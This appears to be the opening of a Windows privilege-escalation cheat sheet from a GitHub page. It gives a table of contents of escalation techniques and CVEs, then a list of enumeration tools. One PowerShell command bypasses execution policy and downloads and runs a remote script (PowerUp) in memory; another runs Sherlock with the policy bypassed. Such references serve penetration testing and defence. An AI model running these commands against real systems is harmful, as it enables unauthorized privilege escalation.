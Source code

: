 # Windows - Privilege Escalation

## Summary

* [Tools](#tools)
* [Windows Version and Configuration](#windows-version-and-configuration)
* [User Enumeration](#user-enumeration)
* [Network Enumeration](#network-enumeration)
* [EoP - Looting for passwords](#eop---looting-for-passwords)
* [EoP - Processes Enumeration and Tasks](#eop---processes-enumeration-and-tasks)
* [EoP - Incorrect permissions in services](#eop---incorrect-permissions-in-services)
* [EoP - Windows Subsystem for Linux (WSL)](#eop---windows-subsystem-for-linux-wsl)
* [EoP - Unquoted Service Paths](#eop---unquoted-service-paths)
* [EoP - Kernel Exploitation](#eop---kernel-exploitation)
* [EoP - AlwaysInstallElevated](#eop---alwaysinstallelevated)
* [EoP - Insecure GUI apps](#eop---insecure-gui-apps)
* [EoP - Runas](#eop---runas)
* [EoP - From local administrator to NT SYSTEM](#eop---from-local-administrator-to-nt-system)
* [EoP - Living Off The Land Binaries and Scripts](#eop---living-off-the-land-binaries-and-scripts)
* [EoP - Impersonation Privileges](#eop---impersonation-privileges)
  * [Meterpreter getsystem and alternatives](#meterpreter-getsystem-and-alternatives)
  * [RottenPotato (Token Impersonation)](#rottenpotato-token-impersonation)
  * [Juicy Potato (abusing the golden privileges)](#juicy-potato-abusing-the-golden-privileges)
* [EoP - Common Vulnerabilities and Exposures](#eop---common-vulnerabilities-and-exposure)
  * [MS08-067 (NetAPI)](#ms08-067-netapi)
  * [MS10-015 (KiTrap0D)](#ms10-015-kitrap0d---microsoft-windows-nt2000--2003--2008--xp--vista--7)
  * [MS11-080 (adf.sys)](#ms11-080-afd.sys---microsoft-windows-xp-2003)
  * [MS15-051 (Client Copy Image)](#ms15-051---microsoft-windows-2003--2008--7--8--2012)
  * [MS16-032](#ms16-032---microsoft-windows-7--10--2008--2012-r2-x86x64)
  * [MS17-010 (Eternal Blue)](#ms17-010-eternal-blue)
* [References](#references)

## Tools

- [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)
    ```powershell
    powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
    ```
- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)
    ```powershell
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
    ```
- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
    ```powershell
    ./windows-exploit-suggester.py --update
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
    ```
- [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
- [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
- [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
- [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)